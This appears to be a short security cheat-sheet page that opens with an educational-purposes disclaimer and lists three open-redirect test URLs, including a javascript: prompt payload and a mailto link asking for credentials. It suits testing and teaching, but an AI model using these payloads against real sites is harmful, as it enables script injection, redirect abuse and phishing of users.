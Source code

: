 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Open Redirect
==============

/?SomeRandomParam=https://TheDomainYouAreOn&TheirParam=javascript://prompt(1)

/?SomeRandomParam=https://TheDomainYouAreOn&TheirParam=mailto://SomeoneEvil@SOMEDOMAIN?Subject=How about that!%26Body=Please send me credentials

/?SomeRandomParam=https://TheDomainYouAreOn&TheirParam=https://www.google.com
